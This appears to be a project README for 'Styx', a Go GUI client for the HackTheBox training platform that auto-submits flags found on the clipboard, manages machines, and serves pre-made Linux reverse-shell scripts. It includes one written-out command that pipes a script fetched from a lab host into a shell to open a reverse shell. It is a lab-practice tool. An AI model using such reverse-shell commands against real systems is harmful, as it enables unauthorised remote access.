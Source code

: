 # styx
 Styx is an cross-platform GUI interface for HackTheBox made in GoLang. Styx's UI is made with the [giu](https://github.com/AllenDang/giu) library.

 ## Features
 **Automatic Flag Submission**
 Styx will continuously check the machine clipboard for any user or root flags, and will submit them automatically through HackTheBox's APIs.
 **Built-in Reverse Shell Generator**
 Styx contains a simple HTTP server that listens on port :61337 and returns pre-made reverse-shell scripts for Linux. Allowing you to quickly get a reverse shell with a simple  `curl 10.10.14.10/lin|sh`
 **Machine Management**
 Styx allows the user to start and stop machines on their own behalf. Flag submission is handled by the **auto flag submission** feature.
 
